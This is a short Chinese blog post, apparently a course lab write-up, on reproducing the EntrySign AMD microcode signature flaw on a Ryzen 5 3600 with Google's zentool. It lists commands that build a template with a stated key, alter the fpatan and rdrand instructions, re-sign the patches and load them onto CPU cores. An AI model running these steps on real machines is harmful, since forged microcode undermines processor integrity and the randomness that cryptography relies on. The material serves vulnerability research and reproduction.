 
---
title: '在AMD R5-3600 (Matisse)上复现EntrySign记录'
date: 2025-10-14 23:00:00
tags:
    - Security
    - CPU
    - ucode

categories:
  - AMD
---

## 前言

感谢这个report: https://bughunters.google.com/blog/5424842357473280/zen-and-the-art-of-microcode-hacking ，感谢这个lecture https://www.youtube.com/watch?v=sUFDKTaCQEk  ，本PPT也上传到了 [google drive](https://drive.google.com/file/d/1IUxMzgoOq0EirJmkHDtOmnlHGABM1jbZ/view?usp=sharing) 

对应zentool的链接 https://github.com/google/security-research/tree/master/pocs/cpus/entrysign/zentool ，
对应ucode包的链接 https://github.com/platomav/CPUMicrocodes/blob/0be0bd7b6a3ec1f1b59562729f1ce14b9569b697/AMD/cpu00870F10_ver08701034_2024-02-23_52FB44A3.bin 

## 碎碎念
1. 在升级的时候一开始是021版本，然后手贱，没改034的包直接刷进去了，微码就变成034了... 后面发现>034的051能做
2. ZENTOOL_XXTEA_KEY那个key是真的文档里的那个key

## 附录

Code of create template
```zsh
 cd ~/Code/CS253/EntrySign/security-research-zentool/pocs/cpus/entrysign/zentool
 ZENTOOL_XXTEA_KEY=0x2b7e151628aed2a6abf7158809cf4f3c  make template.bin 
 ./zentool edit --hdr-revlow 0x8701051 template.bin
 ./zentool resign template.bin

```

Code of attack on fpatan
```zsh
./zentool -o fpatan.bin edit --match 0=@fpatan --seq 0=7 --insn q0i0="add rax, rax, 0x1337" template.bin
./zentool resign fpatan.bin
sudo ./zentool load --cpu=2 fpatan.bin 
```
![fpatan攻击结果](images/entrysign-fpatan-crash.png)


Code of attack on rdrand
```zsh
./zentool -o rdrand.bin edit --match 0=@rdrand --seq 0=0x100002 --insn q0i0="mov.qs rax,rax,4" template.bin
./zentool resign fpatan.bin
sudo ./zentool/zentool load --cpu=4 ./zentool/rdrand.bin ;sudo rdmsr -a 0x8b ; taskset -c 4 ./rdrand_test
```
![rdrand攻击结果](images/entrysign-rdrand-crash.png)
